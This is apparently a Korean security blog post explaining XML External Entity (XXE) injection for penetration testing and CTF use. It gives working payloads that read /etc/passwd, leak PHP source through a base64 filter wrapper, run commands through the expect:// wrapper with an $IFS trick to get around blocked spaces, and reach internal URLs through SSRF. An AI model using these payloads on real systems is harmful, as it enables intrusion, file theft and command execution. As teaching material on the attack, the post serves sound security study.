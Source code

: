 ```yaml
---

layout: post
title: "XML External Entities(XXE) Injection "
excerpt: "Try to know xxe & use it ~_~"
date: 2020-07-11
categories: [Web]
comments: true 
---
```


이번에는 모의해킹 업무와 ctf에 자주 등장하는데 그간 정리를 안했던 XXE에 대하여 알아보자. 

<h3> 0x0. XML</h3>

XML이란 다른 특수 목적의 마크업 언어를 만드는 용도로 사용된 언어이다. 이를 이용한 XML Entity는 반복적으로 사용되는 문자열이나 특수 문자를 XML문서에서 사용하기 위하여 미리 정의한 것이다. 이는 앰퍼샌드로 시작하고 세미콜론으로 끝난다.

```xml
<simple>&test;</simple>
```

이런 형식의 test가 XML Entity이다.

XML을 내부에 정의한 경우

``` xml
<!ENTITY name "value">
```

이런 방식으로 정의를 하고, 위에서 말한 방식으로 이용한다.

XML을 외부에 정의한 경우

```xml
<!ENTITY name SYSTEM "url or file">
```

이렇게 하며  url or file에 입력한 주소의 내용이 그 Entity의 값으로 이용된다.



<h3>0x1. XXE Injection</h3>

위에서 말한 XML Entity를 이용하여 악의적인 공격을 하는 행위를 XXE Injection이라고 하는데, 공격자가 직접 XML Entity를 외부에  정의하여 이를 악용할 수 있다. XML타입의 데이터를 웹을 통해 전송하는데 서버에서 XML외부 엔티티가 실행이 가능하다면 아래와 같이 시행 가능하다.

```xml
<!DOCTYPE test[
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
```

이런식으로 /etc/passwd를 확인하는 xml을 불러와서 공격할 수 있다. 



<h3> 0x2. Tip</h3>

이번에는 xxe공격을 할 때의 팁이나 다른 정보들을 추가하려고 한다.

우선 처음으로는 그냥 dtd를 통하여 내부 파일을 불러오려고 하면 잘 안되는 경우가 있다. 그런 상황에서는 php에 wrapper클래스를 사용하여 base64등의 형태로 인코딩시켜서 출력을 하면 보통의 경우는 잘 된다.

```xml
<!DOCTYPE test [  
  <!ELEMENT testman ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
```

이 방법은 xxe를 통한 lfi공격 이외에도 그냥 일반적으로 무언가를 릭해올 때 거의 해당된다.

다음은 xxe를 통하여 RCE를 할 때는 아래와 같이 가능하다. 

```xml
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
```

이렇게 하면 php가  id를 실행하게 된다. 하지만 다양한 명령어를 사용할 때 공백이 필요한데 그런 경우에 공백을 넣으면 에러가 발생한다. 

```xml
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd" >]>
```

 공백에 관한 에러는  $IFS등의 다양한 방법으로 우회를 해주면 된다. 

다음으로는 XXE를 이용한 SSRF이다. 당연히 서버 내부의 권한으로 XML엔티티를 선언하고 실행하는 것이기 때문에 SSRF도 가능하다. 
일반적인 사용자의 권한에서는 볼 수 없던 내용도 서버 내부의 권한으로는 가능하다.

```xml
<!DOCTYPE test [ 
<!ELEMENT testman (#ANY)>
<!ENTITY xxe SYSTEM "https://internal_domain/any.php">]>
```

이렇게 해주면 내부 url에 접근이 가능하다. 또한 추가적으로  curl을 이용하여도 접근이 가능하다.

이외에도 추가적으로 DOS공격이나 다른 인코딩을 사용하여 공격하는 방법등이 있는데 나중에 문제를 풀다가 나온다면 

그때 정리해보겠다.
